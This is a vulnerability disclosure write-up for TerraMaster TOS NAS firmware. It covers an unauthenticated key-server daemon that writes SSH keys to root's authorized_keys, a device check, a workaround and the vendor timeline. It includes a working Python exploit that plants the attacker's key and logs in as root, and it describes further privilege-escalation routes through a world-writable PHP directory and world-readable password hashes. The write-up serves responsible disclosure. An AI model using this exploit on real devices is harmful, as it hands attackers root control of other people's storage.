 # TerraMaster TOS rsync key-server remote root

In releases of TOS before 4.2.09[2], there exists a vulnerable daemon called
`key-server`, that is started when rsync is enabled, which writes arbitrary data
to `/root/.ssh/authorized_keys` without authentication.

## Bug

TOS include a binary called `key-server`, which has no documentation. There is
also another binary called `key-client` for talking to it.

It runs a network service on TCP 1888 and is started by the init script in
`/etc/init.d/rsync_service`:

```bash
 24 service_prepare(){                                                         
 25     [ ! -d $basedir ] && mkdir -p $basedir                                 
 26     [ ! -d $lockdir ] && mkdir -p $lockdir                                 
 27     chmod 600 ${passfile}                                                  
 28     /sbin/svrcfg-all -c rsync                                              
>29     # ssh 免密传输...                                                      
>30     key-server >/dev/null &                                                
 31     rm -fr /var/run/rsyncd.pid                                             
 32 }
```

The comment in Chinese translates as "ssh confidential transmission...".

It included the following usage string:

```
Usage:rsynctool-server [option]
								-d  daemon
								-h help message
```

With no more details.

When analysed in Ghidra, I saw that it reads a 32 bit int containing 1, along
with an ssh key, and writes the ssh key to `/root/.ssh/authorized_keys`

Root can login, as `PermitRootLogin yes` is in `/etc/ssh/sshd_config`.

## Checking Devices

The easiest way to check is to portscan your TOS device and see if ports 22 and
1888 are open (e.g `nmap -p 22,1888 HOST`). If so, the exploit should work.

## Workaround

As Terramaster has only released the patch for x86, owners of ARM devices can
work around the flaw by removing `key-server >/dev/null &` from
`/etc/init.d/rsync_service` and restarting the device.

The official patch just deleted the `key-server` and `key-client` binaries and
didn't edit this file.

## Exploit

```python3
# Terra-Master rsync key-server "exploit"
#
# enable rsync on your nas, run this, get a root shell.
#
# My lawyer sayz:
#  "This is provided only for the use in the *authorized* testing of systems.
#   no warranty is provided"
#
# Released under the terms of the MIT license https://mit-license.org/
#
# B Horn - 2021
#
# GH: @bahorn
# 
# usage:
#   python terramaster_key_server.py <HOST> ~/.ssh/id_rsa.pub

import socket
import struct
import sys
import os

TCP_IP = sys.argv[1]
TCP_PORT = 1888  # key-server port.

# Read in the SSH key passed
key = open(sys.argv[2]).read()

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TCP_IP, TCP_PORT))
# This refers to the "command". The code just checks if it's set to one.
s.send(struct.pack('I', 1))
# Send over our SSH key and it'll be added to /root/.ssh/authorized_keys
s.send(key)
# The server responds with it's length.
print(s.recv(1024))

# Login
os.system('ssh root@{}'.format(TCP_IP))
```

## Other issues

These are less of a concern as non-admin users no longer will have ssh access as
of the 4.2.10 beta:

* `/etc/base/nasdb` is world readable, allowing any user with shell access to read
the `user_table`, and attempt to crack the password hashes. As the password for
admin is the same for the root user, this can be used to escalate privileges.

(LFDs in the web app have also been reported in the past (See CVE-2020-28187
[1]), and as php scripts are interpreted as root you can just read `/etc/shadow`
, but if they ever fix that this is another option to exploit them)

* http://nas:8181/databack/ is symlinked `/tmp/databack`, which is world
writable. As the php scripts run as root, a unprivileged user can drop a php
script in  the directory and execute it by going to
http://nas:8181/databack/example.php, running their script with root permissions.

(These were validated last year, changes may have been made that stop these,
which wasn't immediately visible from reviewing firmware images)

## Other Notes

Do check out ihteams work on terramaster [1], they seemed to have a far better
experience with them than I did. I suspect what they did better than me was
getting a CVE authority involved.

## Recommendations for Terramaster

* Please establish a proper security contact on your core development team.
* When a researcher reports a flaw, give a timeline for the patch to be released.
* Security updates must be released across all platforms simultaneously. It's
generally simple for researchers to rediscover flaws knowing what has changed.

I shouldn't need to follow up so much to get an issue fixed.

## Timeline

* 2020-05-29 - Reached out to support AT terra-master DOT com to get a security
contact.
* 2020-05-30 - Was told to just forward details onto the support email.
* 2020-05-30 - Provided my research.
* 2020-05-31 - Received confirmation they got my information.
* 2020-06-02 - Was told they forwarded my information onto the Tech department.
* 2021-01-11 - Attempted to reestablish contact, as no details have been
provided since then.
* 2021-01-15 - After no response, I informed them of my intention of publicly
disclosing my research on Feb 1st.
* 2021-01-19 - Confirmation that it will be included in the next release of TOS (4.2.9).
* 2021-02-03 - TOS4.2.9 is released for x86 products, not ARM. [2]
* 2021-02-21 - Follow up regarding arm release, express some concerns on the quality of the patch.
* 2021-02-23 - support confirms they'll chase it.
* 2021-03-20 - Following up again, as lack of updates. State my intentions to
  disclosure publically on the 28th if a patch isn't avaliable for ARM.
* 2021-03-28 - No follow up, releasing notes.

# References

* [1] https://www.ihteam.net/advisory/terramaster-tos-multiple-vulnerabilities/
* [2] https://forum.terra-master.com/en/viewtopic.php?f=28&t=1536

# Updates

As of [patch 1.06](https://forum.terra-master.com/en/viewtopic.php?f=28&t=1813) this finally seems to have been fixed.
